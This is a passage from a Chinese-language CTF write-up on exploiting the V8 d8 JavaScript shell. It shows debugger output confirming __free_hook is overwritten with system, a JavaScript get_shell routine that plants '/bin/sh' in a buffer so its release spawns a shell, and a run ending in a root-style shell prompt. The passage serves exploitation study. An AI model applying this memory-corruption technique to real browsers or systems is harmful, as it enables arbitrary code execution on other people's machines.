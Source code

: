 gdb中再调试上述js语句，可以发现成功写入：

```assembly
pwndbg> r
[*] Success find libc addr: 0x0000561ddc7a15b0
[*] find libc libc_free_hook_addr: 0x00007fac69b538e8
[*] write to : 0x00001d43f720e8c0: 0x00007fac69b538e8
pwndbg> telescope 0x00007fac69b538e8
00:0000│   0x7fac69b538e8 (__free_hook) —▸ 0x7fac697b5440 (system) ◂— test   rdi, rdi
01:0008│   0x7fac69b538f0 (__malloc_initialize_hook) ◂— 0x0
... ↓
```

建议这时候将%SystemBreak()断点下在write64_dataview内部，因为v8在运行时，会有很多内存释放、垃圾回收的操作，而这些操作很容易就能触发free函数，因此上面第二个%SystemBreak前很容易就触发到了free操作而导致gdb崩溃。

最后申请一个局部buffer变量，然后释放，从而触发free操作：

```assembly
function get_shell()
{
    let get_shell_buffer = new ArrayBuffer(0x1000);
    let get_shell_dataview = new DataView(get_shell_buffer);
    get_shell_dataview.setFloat64(0, i2f(0x0068732f6e69622fn)); // str --> /bin/sh\x00 
}
get_shell();
```

注意，获取shell的演示需要在d8的非调试模式下直接运行才能看到效果。将脚本中的%DebugPrint和%SystemBreak等本地调试函数去掉，直接运行d8调用最终js文件：

```assembly
root@kali:~/ctf/browser/x64.release$ ./d8 test.js 
[*] Success find libc addr: 0x00005588111845b0
[*] find libc libc_free_hook_addr: 0x00007f48be0058e8
[*] write to : 0x000019b28a68ea18: 0x00007f48be0058e8
sh: 1: +•U: not found
sh: 2: -•U: not found
sh: 1: Syntax error: end of file unexpected (expecting ")")
sh: 1: r•-•U: not found
sh: 1: •-•U: not found
sh: 1: •kZ•U: not found
•h: 1: get_shell_buffer
 : not found
,: not found
sh: 1: @$•U: not found
sh: 1: @$•U: not found
sh: 1: •$•U: not found
sh: 1: Syntax error: EOF in backquote substitution
$ uname -a  <---- 成功获取到shell
Linux kali 4.18.0-18-generic #19~18.04.1-Ubuntu SMP Fri Apr 5 10:22:13 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
$ 
```

在v8触发各种各样的free操作调用shell之后，终于释放了我们申请的局部buffer变量，成功获取shell！
